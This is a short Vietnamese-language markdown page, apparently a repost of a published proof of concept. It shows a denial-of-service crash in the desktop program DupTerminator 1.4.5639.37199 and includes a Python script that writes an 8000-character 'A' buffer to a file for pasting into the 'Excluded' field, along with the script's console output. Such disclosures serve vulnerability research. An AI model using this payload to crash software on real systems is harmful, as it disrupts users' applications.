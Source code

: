 ```yaml
---
title: DupTerminator 1.4.5639.37199 - Denial of Service (PoC)
date: 1/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

## Mô Tả 

DupTerminator dễ bị điều kiện DoS khi một danh sách dài các ký tự đang được sử dụng trong hộp văn bản trường "Bị loại trừ". Khai thác thành công sẽ khiến ứng dụng ngừng hoạt động. Tôi đã có thể kiểm tra khai thác này trên Windows 10.

--- 

# Mã
## Python
---
```python
# -*- coding: utf-8 -*- 
#!/usr/bin/env python
buffer = "\x41" * 8000

try:
    f = open("test.txt","w")  # Có thể test những file khác
    f.write(buffer)
    f.close()
    print ("File created")
except:
    print ("File cannot be created")
```

---

---
```
C:\Users\Administrator\Documents\python>python 15.py
File created
```
---

## Sau đó file test.txt đã xuất hiện trong tệp Documents



## Chúc May Mắn :D
